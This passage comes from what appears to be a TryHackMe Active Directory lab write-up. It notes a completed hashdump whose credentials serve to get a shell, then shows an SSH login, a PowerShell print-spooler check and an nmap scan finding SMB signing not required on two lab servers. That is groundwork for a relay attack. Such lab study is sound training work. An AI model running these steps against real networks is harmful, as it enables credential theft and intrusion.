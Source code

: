This output resembles what would happen if you used the `-c 'whoami /all'` command. However by specifying no command, you should now have performed a hashdump. These credentials can now be used to get a shell on the host!

### Practical

***

We can start with our ssh session from the first credentials we got:

```
ssh za.tryhackme.loc\\<AD USERNAME>@thmwrk1.za.tryhackme.loc
```

On here, we can do:

```powershell
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```

![](images/Pasted%20image%2020250527131631.png)

As seen, the `print spooler` service is running, from the nmap scan, we can also check that `smb signing` is not enforced:

```
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-27 14:17 EDT
Nmap scan report for thmserver1.za.tryhackme.loc (10.200.47.201)
Host is up (0.56s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap scan report for thmserver2.za.tryhackme.loc (10.200.47.202)
Host is up (0.18s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 11.18 seconds
```

![](images/Pasted%20image%2020250527131738.png)
